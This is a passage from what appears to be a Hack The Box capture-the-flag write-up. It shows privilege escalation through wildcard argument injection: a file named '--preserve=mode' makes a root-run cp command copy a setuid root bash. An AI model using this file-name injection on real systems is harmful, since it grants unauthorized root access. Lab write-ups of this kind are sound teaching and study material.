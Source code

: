 And the script runs:

```bash
cp .version * /etc/bind/named.bindmgr/
```

The wildcard is evaluated before running the command: if we add a file named
after the option, it will actually appear in the call as a flag!!

```bash
# create 
echo _ > $'--preserve=mode'
sudo /usr/local/bin/bindmgr.sh
ls -lah /etc/bind/named.bindmgr/
# -rwsr-sr-x 1 root bind 1.2M Sep 15 15:00 bash
```

I love this! :)

[author-profile]: https://app.hackthebox.eu/users/77141
[leaks]: images/leaks.png
[no-ip-doc]: https://www.noip.com/integrate/response
